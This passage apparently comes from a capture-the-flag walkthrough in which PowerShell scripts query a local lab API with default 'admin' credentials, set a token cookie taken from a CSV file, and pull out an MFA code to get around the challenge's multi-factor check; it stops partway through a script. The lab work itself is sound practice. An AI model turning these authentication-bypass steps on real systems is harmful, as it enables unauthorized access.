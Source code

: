 8) Luckily the defense mechanisms were faulty! 
There seems to be one api-endpoint that still isn't redacted! Communicate with that endpoint!

```ps
Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Credential (New-Object PSCredential('admin', (ConvertTo-SecureString 'admin' -AsPlainText -Force))) -AllowUnencryptedAuthentication -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Content
```

9) It looks like it requires a cookie token, set the cookie and try again.

```ps
# Define the token value from the CSV file
$tokenValue = "5f8dd236f862f4507835b0e418907ffc"

# Create a new web request session
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession

# Add the cookie to the session
$cookie = New-Object System.Net.Cookie("token", $tokenValue, "/", "127.0.0.1")
$session.Cookies.Add($cookie)

# Prepare the credentials
$securePassword = ConvertTo-SecureString 'admin' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('admin', $securePassword)

# Make the web request with the session
$url = "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C"
$response = Invoke-WebRequest -Uri $url -Credential $credential -WebSession $session -AllowUnencryptedAuthentication -ErrorAction SilentlyContinue

# Display the content
$response.Content

>> <h1>Cookie 'mfa_code', use it at <a href='1732228671.25296'>/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C</a></h1>
```
10) Sweet we got a MFA token! We might be able to get access to the system.
 Validate that token at the endpoint!

```ps
# Step 1: Create a new web request session
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession

# Step 2: Prepare the credentials
$securePassword = ConvertTo-SecureString 'admin' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('admin', $securePassword)

# Step 3: Add the 'token' cookie to the session
$tokenValue = "5f8dd236f862f4507835b0e418907ffc"  # Token from the CSV file
$cookieToken = New-Object System.Net.Cookie("token", $tokenValue, "/", "127.0.0.1")
$session.Cookies.Add($cookieToken)

# Step 4: Request the tokens endpoint to get the MFA token
$tokenUrl = "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C"
$response = Invoke-WebRequest -Uri $tokenUrl -Credential $credential -WebSession $session -AllowUnencryptedAuthentication -ErrorAction Stop

# Step 5: Extract the MFA token and validation URL from the response

$content = $response.Content
$mfaTokenMatch = [regex]::Match($content, "href='([^']+)'")
$validationPathMatch = [regex]::Match($content, "<a href='[^']+'>([^<]+)</a>")
```